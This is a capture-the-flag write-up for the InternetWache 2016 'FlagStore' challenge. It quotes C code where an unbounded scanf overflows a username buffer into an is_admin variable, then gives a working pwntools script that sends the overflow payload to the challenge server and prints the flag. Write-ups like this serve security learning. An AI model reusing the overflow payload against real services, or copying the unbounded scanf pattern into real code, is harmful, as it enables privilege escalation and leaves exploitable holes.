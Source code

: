 +++
authors = "kbeckmann"
categories = [ "writeups" ]
date = "2016-02-21T00:08:47+01:00"
title = "InternetWache 2016 FlagStore (Exploit 70) Writeup"

+++

# Problem

> Description: Here's the ultimate flag store. Store and retrieve your flags whenever you want.

(exp70, solved by 244)

Attachment: exp70.zip

Service: 188.166.133.53:12157

# Solution

The zip contains c-code for the challenge. Looking at it I immediately see an overflow and an interesting location for the `admin` flag.

~~~c++
char username[500];
int is_admin = 0; // <-- can be overwritten
char password[500];

...

printf("Enter an username:");
scanf("%s", username);

// scanf will overwrite username and is_admin
~~~

The exploit is to simply send a long username and a \x01 byte.

~~~
#!/usr/bin/env python2
from pwn import *

r = remote('188.166.133.53', 12157)

r.recvuntil('4\n')

r.sendline('1')
r.sendline('A'*499 + '\x00\x01')
r.sendline('A'*8)
r.sendline('2')
r.sendline('A'*499)
r.sendline('A'*8)
r.sendline('3')

print r.clean()
~~~

Your flag: **IW{Y_U_NO_HAZ_FLAG}**
